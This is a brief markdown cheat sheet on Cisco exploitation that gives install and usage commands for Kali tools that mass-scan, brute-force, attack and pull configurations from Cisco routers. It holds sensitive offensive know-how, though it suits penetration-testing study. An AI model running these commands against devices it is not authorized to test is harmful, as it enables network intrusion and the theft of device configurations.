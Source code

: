 # Cisco Exploitation

## Cisco Audit Tools

Install Cisco auditing tools on kali linux:

```
apt install cisco-auditing-tool
```

### [Cisco OCS Scanner](https://www.kali.org/tools/cisco-ocs/)

A mass Cisco scanning tool.

```
# cisco-ocs [Start IP] [Stop IP]
```

### [Cisco Auditing Tool (CAT)](https://www.kali.org/tools/cisco-auditing-tool/)

Perl script which scans cisco routers for common vulnerabilities.

```
# CAT -h 192.168.99.230 -p 23 -a /usr/share/wordlists/nmap.lst
```

### [cisco-global-exploiter](https://www.kali.org/tools/cisco-global-exploiter/)

Cisco Global Exploiter (CGE), is an advanced, simple and fast security testing tool.

```
# Show all available Attacks
# cge.pl -h
# Attack
# cge.pl [Target IP] [Attack ID]
```

### [cisco-torch](https://www.kali.org/tools/cisco-torch/)

Cisco device vulnerability scanner

```
# cisco-torch -A [Target IP]
```

### <mark style="color:blue;">Cisco</mark> [copy-router-config](https://www.kali.org/tools/copy-router-config/)

Copies configuration files from Cisco devices running SNMP.

```
# copy-router-config.pl [Router IP] [TFTP Server IP] [Community String]
```
